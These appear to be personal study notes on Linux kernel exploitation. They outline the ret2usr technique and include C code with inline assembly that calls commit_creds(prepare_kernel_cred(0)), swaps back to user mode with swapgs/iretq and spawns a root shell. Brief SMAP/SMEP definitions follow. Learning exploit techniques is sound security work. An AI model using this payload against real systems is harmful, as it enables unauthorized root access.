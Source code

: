 
## [LinuxKernelPwn](https://www.digitalwhisper.co.il/files/Zines/0x6F/DW111-1-LinuxKernelPwn.pdf)exploit
1. save the process state (`flags, rsp, ss, cs`)
2. while in kernel mode return to your exploit which 
* `commit_creds(prepare_kernel_cred(0));` , you can get their location by reading `/proc/kallsyms` (kernel all symbols)
* return to user mode (`swapgs` & `iretq`) and `system(/bin/sh)`

## [Knote](https://pwning.tech/knote/)

uses the same technique here's the exploit code

```c
long prepare_kernel_cred = 0xDEADC0D3;
long commit_creds = 0xDEADC0DE;
long _proc_cs, _proc_ss, _proc_rsp, _proc_rflags = 0;

void set_ctx_reg() {
    __asm__(".intel_syntax noprefix;"
            "mov _proc_cs, cs;"
            "mov _proc_ss, ss;"
            "mov _proc_rsp, rsp;"
            "pushf;" // push rflags
            "pop _proc_rflags;"
            ".att_syntax");

    printf("[+] CS: 0x%lx, SS: 0x%lx, RSP: 0x%lx, RFLAGS: 0x%lx\n", _proc_cs, _proc_ss, _proc_rsp, _proc_rflags);
}


void spawn_shell()
{
    puts("[+] Hello Userland!");
    int uid = getuid();
    if (uid == 0)
        printf("[+] UID: %d (root poggers)\n", uid);
    else {
        printf("[!] UID: %d (epic fail)\n", uid);
    }

    puts("[*] starting shell");
    system("/bin/sh");

    puts("[*] quitting exploit");
    exit(0); // avoid ugly segfault
}

void privesc_ctx_swp()
{
    __asm__(".intel_syntax noprefix;"
            /**
             * struct cred *prepare_kernel_cred(struct task_struct *daemon)
             * @daemon: A userspace daemon to be used as a reference
             *
             * If @daemon is supplied, then the security data will be derived from that;
             * otherwise they'll be set to 0 and no groups, full capabilities and no keys.
             *
             * Returns the new credentials or NULL if out of memory.
             */
            "xor rdi, rdi;"
            "movabs rax, prepare_kernel_cred;"
            "call rax;" // prepare_kernel_cred(0)

            /**
             * int commit_creds(struct cred *new)
             * @new: The credentials to be assigned
             */
            "mov rdi, rax;" // RAX contains cred pointer
            "movabs rax, commit_creds;"
            "call rax;"

            // setup the context swapping
            "swapgs;" // swap GS to userland

            "mov r15, _proc_ss;"
            "push r15;"
            "mov r15, _proc_rsp;"
            "push r15;"
            "mov r15, _proc_rflags;"
            "push r15;"
            "mov r15, _proc_cs;"
            "push r15;"
            "lea r15, spawn_shell;" // lea rip, spawn_shell ; when returning to userland
            "push r15;"
            "iretq;" // swap context to userland
            ".att_syntax;");
}
```

## Kernel protections
SMAP - Supervisor Mode Access Prevention, sets user-space memory mappings so that **access** to those mappings from supervisor mode will cause a trap.
SMEP - Supervisor Mode Execution Prevention, same as SMAP but for **execution**. (I could have used syscall in `CrabOS` if I disabled it)

